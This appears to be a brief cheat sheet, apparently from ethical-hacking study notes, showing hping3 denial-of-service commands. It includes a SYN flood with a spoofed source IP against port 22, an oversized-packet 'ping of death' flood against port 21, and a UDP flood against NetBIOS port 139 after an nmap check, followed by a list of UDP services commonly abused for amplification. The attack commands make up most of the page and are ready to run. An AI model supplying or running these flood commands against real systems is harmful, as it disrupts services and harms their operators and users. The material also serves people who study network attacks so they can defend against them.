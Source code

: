 # 👉 Hping3

**Attacker**

hping3 -S \[Target IP] -a \[Spoofable IP] -p 22 -flood

* \-S: Set the SYN flag
* \-a: Spoof the IP address
* \-p: Specify the destination port
* — flood: Send a huge number of packets

**Attacker (Perform PoD)**

hping3 -d 65538 -S -p 21 –flood \[Target IP]

* \-d: Specify data size
* \-S: Set the SYN flag

**Attacker (Perform UDP application layer flood attack)**

* nmap -p 139 10.10.10.19 (check service)
* hping3 -2 -p 139 –flood \[IP]

**Other UDP-based applications and their ports**

* CharGen UDP Port 19
* SNMPv2 UDP Port 161
* QOTD UDP Port 17
* RPC UDP Port 135
* SSDP UDP Port 1900
* CLDAP UDP Port 389
* TFTP UDP Port 69
* NetBIOS UDP Port 137,138,139
* NTP UDP Port 123
* Quake Network Protocol UDP Port 26000
* VoIP UDP Port 5060





